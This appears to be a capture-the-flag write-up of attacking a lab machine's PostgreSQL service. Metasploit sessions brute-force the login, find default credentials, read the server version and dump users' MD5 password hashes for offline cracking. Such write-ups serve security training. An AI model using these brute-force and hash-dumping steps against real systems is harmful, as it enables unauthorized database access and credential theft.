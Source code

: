 
port **80** has a static website, with an email news letter post submit form, tested it, nothing special

port **5432** sounds like a good entry, but mostly we'll need to be authenticated in order to abuse postgresql, 

what is a postgressql database:
> from [wikipedia](https://en.wikipedia.org/wiki/PostgreSQL), Postgres is a free and open-source relational database management system (RDBMS) emphasizing extensibility and SQL compliance.

well, i'll be using metasploit to brute force postgress, and retrive some passwords, there is a quite good module for that **auxiliary/scanner/postgres/postgres_login**

```
msf5 > use auxiliary/scanner/postgres/postgres_login
msf5 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 10.10.207.249
RHOSTS => 10.10.207.249
msf5 auxiliary(scanner/postgres/postgres_login) > run
[-] 10.10.207.249:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
...
[+] 10.10.207.249:5432 - Login Successful: postgres:password@template1
```

and we got a hit, the database is not properly configured and the default credentials provided for initial authentication and configuration are never changed.

```
username : postgres
password : password
database : template1
```

we can always grab the database version if we need to with **auxiliary/admin/postgres/postgres_sql** module

```
msf5 auxiliary(scanner/postgres/postgres_login) > use auxiliary/admin/postgres/postgres_sql
msf5 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.207.249

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

or maybe dump the users hashes, for a later offline brute force attack

```
msf5 auxiliary(admin/postgres/postgres_sql) > use auxiliary/scanner/postgres/postgres_hashdump
msf5 auxiliary(scanner/postgres/postgres_hashdump) > run

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc
```
